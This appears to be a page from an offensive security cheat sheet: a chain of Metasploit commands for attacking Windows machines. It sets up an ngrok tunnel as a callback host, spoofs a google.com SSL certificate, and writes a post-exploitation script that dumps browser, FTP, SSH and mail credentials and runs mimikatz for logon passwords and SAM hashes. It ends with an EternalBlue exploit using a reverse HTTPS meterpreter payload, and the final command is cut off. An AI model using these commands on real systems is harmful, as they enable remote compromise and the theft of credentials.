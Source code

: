 {% hint style="info" %}
Define ENV Ngrok
{% endhint %}

```bash
NGHOST=$(curl -s http://127.0.0.1:4040/api/tunnels | jq -r .tunnels[0].public_url | sed 's|https://||')
```

{% hint style="info" %}
Cert Spoof
{% endhint %}

```bash
rm -rf /home/$USER/.msf4/loot/*
msfconsole -qx "
    use auxiliary/gather/impersonate_ssl;
    set RHOSTS google.com;
    run;
    exit"
```

{% hint style="info" %}
Define ENV Cert
{% endhint %}

```bash
CERT=/home/$USER/.msf4/loot/$(find /home/$USER/.msf4/loot/ -type f -name "*.pem" -printf "%f\n" | head -n 1)
```

{% hint style="info" %}
Post-EXP
{% endhint %}

```bash
cat > /tmp/post-exp.rc << EOF
getprivs
getsystem
run multi/gather/firefox_creds DECRYPT=true
run multi/gather/filezilla_client_cred
run multi/gather/ssh_creds
run multi/gather/thunderbird_creds
run multi/gather/wlan_geolocate
mimikatz
privilege::debug
sekurlsa::logonpasswords
lsadump::sam
bg
EOF
```

{% hint style="info" %}
EternalBlue Exploit (ٌWin 7 to 10 - Win Server 2008 to 2012)
{% endhint %}

```bash
msfconsole -qx "
    use exploit/windows/smb/ms17_010_eternalblue;
    set PAYLOAD windows/x64/meterpreter/reverse_https;
    set RHOSTS $TARGET;
    set LHOST $NGHOST;
    set LPORT 443;
    set ReverseListenerBindAddress 127.0.0.1;
    set ReverseListenerBindPort 4444;
    set HandlerSSLCert $CERT;
    set StagerVerifySSLCert true;
    set StageEncoder true;
    set AutoRunScript /tmp/post-exp.rc;
```